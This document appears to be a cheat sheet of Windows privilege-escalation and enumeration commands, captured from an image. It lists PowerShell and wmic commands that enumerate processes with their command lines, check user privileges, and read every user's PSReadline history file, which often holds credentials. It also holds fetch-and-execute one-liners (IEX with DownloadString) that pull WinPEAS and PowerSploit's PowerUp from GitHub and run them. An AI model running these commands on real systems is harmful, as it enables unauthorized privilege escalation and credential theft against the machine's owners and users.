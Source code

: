## List processes with command line arguments
```powershell
Get-WmiObject Win32_Process | Select-Object ProcessId,Name,CommandLine
wmic process get name,processid,commandline
```

## Display current user privileges
```powershell
whoami /priv
```

## Get PowerShell command history
```powershell
Get-History
```

## Get PSReadline history file path
```powershell
(Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath
```

## Find PSReadline history for all users
```powershell
Get-ChildItem -Path C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt -Recurse -ErrorAction SilentlyContinue
```

## Download and run WinPEAS executable
```powershell
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe -o winPEAS.exe
.\winPEAS.exe
.\winPEAS.exe | Tee-Object -FilePath "winpeas_output.txt"
```

## Download and run WinPEAS PowerShell script
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')
Invoke-winPEAS
```

## Download and run PowerUp.ps1
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks
```
